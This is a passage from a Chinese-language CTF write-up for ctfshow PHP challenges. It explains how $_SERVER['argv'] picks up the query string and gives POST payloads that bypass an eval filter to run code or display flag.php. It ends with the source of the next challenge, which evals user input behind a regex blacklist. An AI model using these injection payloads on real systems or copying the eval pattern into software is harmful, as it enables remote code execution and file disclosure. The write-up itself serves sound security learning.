 相比于上一题，题目过路的更多了，echo这些打印函数被过滤

这里我们详细看

```
$a=$_SERVER['argv'];
```

> $_SERVER['argv']：
>
> 1、cli模式（命令行）下
>
> 	第一个参数$_SERVER['argv'][0]是脚本名，其余的是传递给脚本的参数
>
> 2、web网页模式下
>
> 	在web页模式下必须在php.ini开启register_argc_argv配置项
> 		
> 	设置register_argc_argv = On(默认是Off)，重启服务，$_SERVER[‘argv’]才会有效果
> 		
> 	这时候的$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’]
> 		
> 	$argv,$argc在web模式下不适用

```
我们是在网页模式下的，注意重点：
$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’]
而 $_SERVER[‘QUERY_STRING’] 是获取查询语句，也就是?后面的语句
```

payload

```
?$fl0g=flag_give_me;

POST:CTF_SHOW=1&CTF[SHOW.COM=2&fun=eval($a[0])
```

另一种思路

这里没有过滤`highlight_file()`于是我们可以构造

```
fun=highlight_file($_GET[1])
```

payload

```
?1=flag.php
POST:CTF_SHOW=1&CTF[SHOW.COM=2&fun=highlight_file($_GET[1])
```



### web126

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
} 
```